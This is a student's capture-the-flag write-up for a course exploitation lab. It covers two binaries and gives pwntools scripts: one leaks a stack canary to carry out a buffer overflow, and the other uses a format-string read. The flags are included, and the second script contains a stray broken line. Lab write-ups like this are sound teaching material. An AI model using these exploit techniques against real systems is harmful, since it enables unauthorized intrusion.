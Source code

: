 | Name   | Zid       |
|--------|-----------|
| Li Li  | z5441928  |


# Exploitation:

## Question 1 - kawasaki:

FLAG: 

FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNi1rYXdhc2FraSIsImlwIjoiMTcwLjY0LjIwNy43OCIsInNlc3Npb24iOiI3OGRjMWQwMC0zYzgzLTQ0ODItYWZjZi0xZGM2OTkyM2QwNzYifQ.yU2GYR-EFn-vIH4bURPTx-S-buzik3KJU0nkW28w25o}

Writeup:

* buffer : rbp-0x40
* canary : rbp - 0x11
* padding_before: 0x40-0x11 = 47
* padding_after: 1
* padding_rbp = 8
* payload = b"A"* 47 + p64(hex_number) + b"A" * 9 + b"A" *8 + p64(rdn_addr))
* 


script

```
import re
from pwn import *

context.arch = 'amd64'

if args.REMOTE:
    p = remote('6447.lol', 6002)
elif args.HOST:
    p = process('./kawasaki')
else:
    context.terminal =['tmux', 'splitw', '-h', '-p', '75']
    p = gdb.debug('./kawasaki',
                  gdbscript='''
                  b *vuln+233
                  c
                  ''')

p.recvuntil(b'function @').decode('utf-8').strip()
rdn_addr_str = p.recvline().strip(b'\n')
print('rdn_addr_str', rdn_addr_str)
rdn_addr = int(rdn_addr_str, 16)

p.recvuntil(b'canary').decode('utf-8').strip()
text = p.recvline().strip(b'\n')

# Use a bytes pattern in re search
hex_value = re.search(b'0x[0-9a-fA-F]+', text)

# Check if a match is found and convert to integer
if hex_value:
    hex_number = int(hex_value.group(), 16)
    print(hex_value.group(), text)
else:
    print("No hex value found")

p.sendline(b"A"* 47 + p64(hex_number) + b"A" * 9 + b"A" *8 + p64(rdn_addr))

p.interactive()

```


## Question 2 - halloween:

FLAG: 

FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNi1oYWxsb3dlZW4iLCJpcCI6IjE3MC42NC4yMDcuNzgiLCJzZXNzaW9uIjoiNDhkM2QxZTgtZmMzZS00MmJkLWE3ZDUtNTE0MDA5OTM2MTBkIn0.qge3R9Nu0KCMnlZCfOBGs17jbf2XfOF778BnJxNQzLY}

Writeup:

* buffer : rbp-0x100
* format string start with rbp-0x80
* offset = 0x80/8 = 16 + 7th = 23th
* payload : padding + b"%23$s..." + p64(hex_number)

script

```
import re
from pwn import *

context.arch = 'amd64'

if args.REMOTE:
    p = remote('6447.lol', 6001)
elif args.HOST:
    p = process('./halloween')
else:
    context.terminal = ['tmux', 'splitw', '-h', '-p', '75']
    p = gdb.debug('./halloween',
                  gdbscript='''
                  b *main+144
                  c
                  ''')

p.recvuntil(b'variable @').decode('utf-8').strip()
text = p.recvline().strip(b'\n')

# Use a bytes pattern in re search
hex_value = re.search(b'0x[0-9a-fA-F]+', text)

# Check if a match is found and convert to integer
if hex_value:
    hex_number = int(hex_value.group(), 16)
    print(hex_value.group(), text)
else:
    print("No hex value found")

padding = cyclic((0x100 - 0x80), alphabet=string.ascii_uppercase, n=8).encode()

# p.sendline(padding + b"%p......" * 16)

p.sendline(padding + b"%23$s..." + p64(hex_number))
p64(hex_number))
p.interactive()


```



